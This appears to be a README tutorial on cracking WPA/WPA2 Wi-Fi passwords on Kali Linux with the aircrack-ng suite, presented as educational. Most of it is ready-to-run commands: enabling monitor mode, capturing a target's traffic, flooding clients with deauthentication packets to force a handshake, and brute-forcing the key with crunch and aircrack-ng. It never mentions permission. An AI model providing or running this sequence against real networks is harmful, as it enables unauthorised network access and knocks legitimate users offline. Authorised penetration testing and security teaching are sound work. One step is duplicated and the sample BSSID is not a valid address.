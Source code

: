 # Introduction

Wi-Fi security plays a vital role in safeguarding digital privacy, and it's important for network administrators and cybersecurity enthusiasts to grasp how vulnerabilities can be taken advantage of. This tutorial will guide you through the process of hacking WPA-WPA2-protected Wi-Fi networks for educational purposes, utilizing Aircrack-ng on Kali Linux.

# Tools Required
Network Adapter (e.g., TL-WN722N V2) with monitoring mode support
Kali Linux 
Aircrack-ng
Airodump-ng
Airmon-ng

## Monitoring Mode Setup
### Step 1: Kill Interrupting Services
- Before enabling monitoring mode, identify and kill services that might interrupt the process:
```
sudo airmon-ng check wlan0
sudo airmon-ng check kill
```

### Step 2: Enable Monitoring Mode
- Stop the WLAN interface and enable monitor mode:
```
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

- Verify the mode using:
```
iwconfig
```

### Step 3: Capture BSSID and Monitor Network
- Use airodump-ng to capture BSSID information:
```
airodump-ng wlan0
```

- Select a specific BSSID for monitoring and run:
- Run the command in the background.
```
airodump-ng -c 1 -w Scan_network --bssid EK:KV:2H:J4:A3:38 wlan0
```
### Step 4: Deauthentication Process
- Deauthenticate the target Wi-Fi to capture the 4-way handshake:
- Run the command until you see the 4-way handshake in the background code.
```
sudo aireplay-ng -0 0 -a EK:KV:2H:J4:A3:38 wlan0
```

- Select a specific BSSID for monitoring and run:
- Run the command in the background.
```
airodump-ng -c 1 -w Scan_network --bssid EK:KV:2H:J4:A3:38 wlan0
```

### Final Stage: Password Cracking with Crunch and Aircrack-ng
- Using Crunch for Password Generation
```
sudo crunch 8 8 123456780 | aircrack-ng -w - WifiScan.cap -e Soham
```
